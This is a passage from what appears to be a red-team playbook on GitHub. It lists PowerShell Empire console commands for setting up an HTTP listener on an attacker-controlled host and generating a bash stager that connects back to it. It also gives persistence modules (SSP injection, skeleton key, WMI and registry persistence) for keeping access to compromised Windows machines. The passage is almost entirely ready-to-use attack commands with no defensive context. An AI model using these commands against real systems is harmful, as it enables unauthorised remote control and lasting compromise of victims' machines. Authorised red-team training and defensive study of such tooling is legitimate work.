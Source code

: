 ```c
(Empire: <NAME>) > usemodule persistence/misc/memssp                     // ssp persistence
(Empire: <NAME>) > usemodule persistence/misc/skeleton_key               // skeleton key persistence
(Empire: <NAME>) > usemodule persistence/elevated/wmi                    // wmi persistence
```

### Setup HTTP Listener

```c
(Empire) > listeners http
(Empire: listeners/http) > info
(Empire: listeners/http) > set Name <NAME>
(Empire: listeners/http) > set Host <LHOST>
(Empire: listeners/http) > set Port <Port>
(Empire: listeners/http) > exeute
```

### Setup Stager

```c
(Empire: listeners) > usestager multi/bash
(Empire: listeners/multi/bash) > set Listener <NAME>
(Empire: listeners/multi/bash) > set OutFile /PATH/TO/FILE/<FILE>.sh
(Empire: listeners/multi/bash) > execute
```

### Setup Persistence Measures

```c
(Empire: <NAME>) > usemodule powershell/persistence/elevated/registry
(Empire: <NAME>/powershell/persistence/elevated/registry) > set Listener <NAME>
(Empire: <NAME>/powershell/persistence/elevated/registry) > run
```


### Previous

- [5 Installation](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5-Installation.md)
- [5.1 Persistence](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.1-Persistence.md)
- [5.2 Situational Awareness](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.2-Situational-Awareness.md)

### Next

- [7 Actions-on-Objective](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7-Actions-on-Objective.md)
- [7.1 Post Exploitation](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.1-Post-Exploitation.md)
- [7.2 Exfiltration](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.2-Exfiltration.md)
